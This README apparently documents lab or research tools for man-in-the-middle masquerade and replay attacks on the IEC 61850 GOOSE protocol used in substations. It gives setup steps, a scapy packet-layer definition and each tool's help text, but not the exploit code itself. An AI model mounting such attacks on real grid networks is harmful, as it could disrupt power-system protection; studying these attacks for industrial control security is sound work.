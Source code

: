 # HOW TO SETUP:

1. Clone the git repo: https://github.com/keith-gray-powereng/goose
2. Copy the `goose` directory from the repo into that directory where the exploit is located.
3. Paste this code in `goose.py` file inside the `goose` directory from step 2

```python
from struct import pack

from scapy.packet import Packet
from scapy.fields import XShortField, XByteField, ConditionalField
from scapy.all import bind_layers

class GOOSEPDU(Packet):
    name = "GOOSEPDU"
    fields_desc = [
        XByteField("ID",0x61),
        XByteField("DefLen",0x81),
         # NOTE: Length comes from this byte's Least Significant Nibble. Not sure what MSN is for.
        ConditionalField(XByteField("PDU1ByteLen",0x00),lambda pkt:pkt.DefLen^0x80 == 1), 
        ConditionalField(XShortField("PDU2BytesLen",0x0000),lambda pkt:pkt.DefLen^0x80 == 2)
    ]

bind_layers(GOOSE, GOOSEPDU)
```
4. Run the exploit.


# 1. Masquerade Exploit:

```bash
slsuser@slsuser-vm:/opt/analysis_scripts$ python3 goose_exploit.py -h
usage: python3 goose_exploit.py [options]

GOOSE MiTM Masquerade Exploit.

options:
  -h, --help
        show this help message and exit
  --pcapfile PCAPFILE
        Name of the PCAP file to process.
  --livecapture
        Start the live capture. (default: False)
  --output OUTPUT
        Name of the ouput file (should be with .pcap extension)
        Example: 
        ----------
            python3 goose_exploit.py --livecapture --output <filename>
```

# 2. Replay Attack

```bash
slsuser@slsuser-vm:/opt/analysis_scripts$ python3 goose_replay.py -h
usage: python3 goose_replay.py [options]

GOOSE Replay Attack.

options:
  -h, --help
        show this help message and exit
  --pcapfile PCAPFILE
        Name of the PCAP file to process.
  --livecapture
        Start the live capture. (default: False)
  --output OUTPUT
        Name of the ouput file (should be with .pcap extension)
        Example: 
        ----------
            python3 goose_replay.py --livecapture --output <filename>

```
# REFERENCES:

https://idahogray.github.io/blog/generating-goose-messages.html

https://github.com/cutaway-security/goosestalker
